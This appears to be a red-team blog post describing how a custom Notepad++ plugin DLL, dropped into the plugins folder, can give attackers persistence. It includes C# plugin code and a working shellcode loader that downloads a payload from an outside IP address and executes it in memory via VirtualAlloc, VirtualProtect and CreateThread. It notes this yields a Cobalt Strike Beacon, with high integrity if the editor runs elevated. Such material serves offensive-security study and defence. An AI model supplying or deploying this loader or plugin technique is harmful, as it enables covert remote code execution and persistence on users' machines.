 ```yaml
---
title: "Notepad++ Plugins for Persistence"
date: 2022-01-29T15:54:31Z
draft: false
authors:
    - RastaMouse
---
```


[Notepad++](https://notepad-plus-plus.org/downloads/) is a popular Windows text editor, which has an extension capability in the way of [plugins](https://npp-user-manual.org/docs/plugins/).  The **Plugin Manager** allows users to download and install [approved](https://github.com/notepad-plus-plus/nppPluginList) plugins, but you can also install your own plugins locally.  A plugin can be built in a variety of languages including [C++](https://github.com/npp-plugins/plugintemplate/releases) and [C#](https://github.com/kbilsted/NotepadPlusPlusPluginPack.Net).

To install a custom plugin, the DLL can simply be dropped inside `%PROGRAMFILES%\Notepad++\plugins\pluginName\pluginName.dll`.  The up-side is that no user interaction is required to load or activate the plugin.  The down-side is that local admin rights are required to write to the directory.

Here, I'm using the .NET template to run some code from the `OnNotification` method.  This is fired every time Notepad++ does "something".  The notification code can be used by the plugin to determine whether or not it needs to do anything.

```c#
static bool firstRun = true;

public static void OnNotification(ScNotification notification)
{
    if (notification.Header.Code == (uint)SciMsg.SCI_ADDTEXT && firstRun)
    {
        using var process = Process.GetCurrentProcess();
        MessageBox.Show($"Hello from {process.ProcessName} ({process.Id}).");

        firstRun = !firstRun;
    }
}
```

In this example, the `SCI_ADDTEXT` notification is used.  This is fires everytime the user types a character, but there are literally hundreds of notification types that you could use instead.  I like this approach, since it doesn't require the user to interact with a plugin menu item or anything like that.  I also add a boolean flag to ensure the "malicious" code is only run once.

Once compiled, create a new directory inside `plugins` and copy the DLL there.

```text
PS C:\> ls 'C:\Program Files\Notepad++\plugins\TotallyLegitPlugin\'

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        30/01/2022     10:22         164352 TotallyLegitPlugin.dll
```

Now launch Notepad++ and type a character.

![](/images/notepad_plusplus/msgbox.png "MessageBox")

Replace the MessageBox with a shellcode loader or anything else you fancy.  This is the most basic example:

```c#
if (notification.Header.Code == (uint)SciMsg.SCI_ADDTEXT && firstRun)
{
    using var client = new WebClient();
    var buf = client.DownloadData("http://172.19.215.47/shellcode");

    var hMemory = VirtualAlloc(
        IntPtr.Zero,
        (uint)buf.Length,
        AllocationType.Reserve | AllocationType.Commit,
        MemoryProtection.ReadWrite);

    Marshal.Copy(buf, 0, hMemory, buf.Length);

    _ = VirtualProtect(
            hMemory,
            (uint)buf.Length,
            MemoryProtection.ExecuteRead,
            out _);

    _ = CreateThread(
            IntPtr.Zero,
            0,
            hMemory,
            IntPtr.Zero,
            0,
            out _);

    firstRun = !firstRun;
}
```

![](/images/notepad_plusplus/beacon.png "Cobale Strike Beacon")

If Notepad++ is launched in high integrity (e.g. to modify a privileged system file such as `C:\Windows\System32\drivers\etc\hosts`), the Beacon will also run in high integrity.
